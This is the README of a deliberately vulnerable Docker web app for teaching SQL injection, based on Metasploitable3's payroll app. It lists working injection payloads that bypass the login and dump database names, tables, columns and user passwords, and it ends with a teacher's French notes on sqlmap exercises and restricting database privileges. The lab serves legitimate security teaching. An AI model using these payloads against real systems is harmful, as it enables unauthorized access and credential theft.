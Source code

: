 # startrek_payroll

A simple SQL injection vulnerable web application powered by Docker

## Project Summary

This is a simple web application that is vulnerable to SQL injection attacks. The web application is based on the `payroll_app` from the [Metasploitable3 project](https://github.com/rapid7/metasploitable3), and the PHP code is taken (almost) directly from that project. The primary contribution of this project is a Docker environment using docker-compose and consisting of Nginx, PHP and MySQL containers to run the web application easily.

## Lancement


docker-compose up --env-file .env -d

Open web browser and visit:

- `http://localhost:8080`


## Example Payloads

1. Normal login to get users salary:
    - `username`: `james_kirk`
    - `password`: `kobayashi_maru`

2. Dump username and salary of all users:
    - `username`: `' OR 1=1#`
    - `password`: `anythingyouwant`

3. Dump MySQL version:
    - `username`: `' UNION SELECT null,@@version#`
    - `password`: `anythingyouwant`

4. Dump all server databases

   - `username`: `' UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata; #`
   - `password`: `anythingyouwant`

5. Dump all tables in a database (here: capturethefenelon)

   - `username`: `' UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='capturethefenelon' #`
   - `password`: `anythingyouwant`

6. Dump all columns names in a table (here: users)

   - `username`: `' UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='users' #`
   - `password`: `anythingyouwant`

7. Dump all data in a table (here: users)

   - `username`: `' UNION ALL SELECT NULL,concat(0x28,username,0x3a,first_name,0x3a,last_name,0x3a,password,0x29) FROM users #`
   - `password`: `anythingyouwant`



Propositions étudiants:

fenelon'; SELECT * FROM users; --

SELECT table_name FROM information_schema.tables WHERE table_schema = 'capturethefenelon


Doivent le faire avec sqlmap
Fournir le TP sqlmap

https://www.advania.co.uk/insights/blog/mysql-sql-injection-practical-cheat-sheet/?lai_vid=yAN64pOwgSeOd&lai_sr=45-49&lai_sl=m


Mettre à jour la base
update users set first_name='chien', last_name='racheter', password='supérieur' where username='fenelon';

select * from users where username = 'fenelon';


Mise à jour 
Faire un utilisateur dont les droits sont limités à du simple insert ou select, pas de update
> Empêcher les update 
